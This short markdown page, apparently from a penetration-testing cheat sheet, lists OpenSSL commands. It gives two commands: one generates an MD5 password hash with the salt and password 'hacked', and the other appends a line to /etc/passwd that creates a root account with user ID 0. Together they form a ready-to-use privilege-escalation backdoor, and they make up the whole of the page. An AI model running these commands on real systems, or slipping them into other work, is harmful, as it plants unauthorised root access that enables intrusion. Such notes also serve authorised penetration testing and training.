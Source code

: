 # 🏦 OpenSSL Commands

## Password Creation

### /etc/passwd password

```
# Generate /etc/passwd md5 password
openssl passwd -1 -salt hacked hacked

# Update the etc/passwd file
echo 'root:$1$hacked$AT54UB5LPtGe8TddyLG9O0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

